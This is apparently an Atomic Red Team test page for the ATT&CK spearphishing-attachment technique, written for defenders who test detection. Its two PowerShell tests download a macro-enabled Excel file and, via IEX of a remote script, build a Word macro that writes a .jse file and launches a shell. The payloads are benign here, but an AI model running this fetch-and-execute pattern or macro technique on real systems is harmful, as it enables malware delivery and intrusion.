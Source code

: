 # T1566.001 - Spearphishing Attachment
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1566/001)
<blockquote>Adversaries may send spearphishing emails with a malicious attachment in an attempt to gain access to victim systems. Spearphishing attachment is a specific variant of spearphishing. Spearphishing attachment is different from other forms of spearphishing in that it employs the use of malware attached to an email. All forms of spearphishing are electronically delivered social engineering targeted at a specific individual, company, or industry. In this scenario, adversaries attach a file to the spearphishing email and usually rely upon [User Execution](https://attack.mitre.org/techniques/T1204) to gain execution. Spearphishing may also involve social engineering techniques, such as posing as a trusted source.

There are many options for the attachment such as Microsoft Office documents, executables, PDFs, or archived files. Upon opening the attachment (and potentially clicking past protections), the adversary's payload exploits a vulnerability or directly executes on the user's system. The text of the spearphishing email usually tries to give a plausible reason why the file should be opened, and may explain how to bypass system protections in order to do so. The email may also contain instructions on how to decrypt an attachment, such as a zip file password, in order to evade email boundary defenses. Adversaries frequently manipulate file extensions and icons in order to make attached executables appear to be document files, or files exploiting one application appear to be a file for a different one. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Download Phishing Attachment - VBScript](#atomic-test-1---download-phishing-attachment---vbscript)

- [Atomic Test #2 - Word spawned a command shell and used an IP address in the command line](#atomic-test-2---word-spawned-a-command-shell-and-used-an-ip-address-in-the-command-line)


<br/>

## Atomic Test #1 - Download Phishing Attachment - VBScript
The macro-enabled Excel file contains VBScript which opens your default web browser and opens it to [google.com](http://google.com).
The below will successfully download the macro-enabled Excel file to the current location.
File is downloaded to the %temp% folder.

**Supported Platforms:** Windows


**auto_generated_guid:** 114ccff9-ae6d-4547-9ead-4cd69f687306






#### Attack Commands: Run with `powershell`! 


```powershell
if (-not(Test-Path HKLM:SOFTWARE\Classes\Excel.Application)){
  return 'Please install Microsoft Excel before running this test.'
}
else{
  $url = 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm'
  $fileName = 'PhishingAttachment.xlsm'
  New-Item -Type File -Force -Path $fileName | out-null
  $wc = New-Object System.Net.WebClient
  $wc.Encoding = [System.Text.Encoding]::UTF8
  [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
  Invoke-WebRequest -Uri $url -OutFile $fileName
}
```






<br/>
<br/>

## Atomic Test #2 - Word spawned a command shell and used an IP address in the command line
Word spawning a command prompt then running a command with an IP address in the command line is an indiciator of malicious activity.
Upon execution, CMD will be lauchned and ping 8.8.8.8

**Supported Platforms:** Windows


**auto_generated_guid:** cbb6799a-425c-4f83-9194-5447a909d67f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | String | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
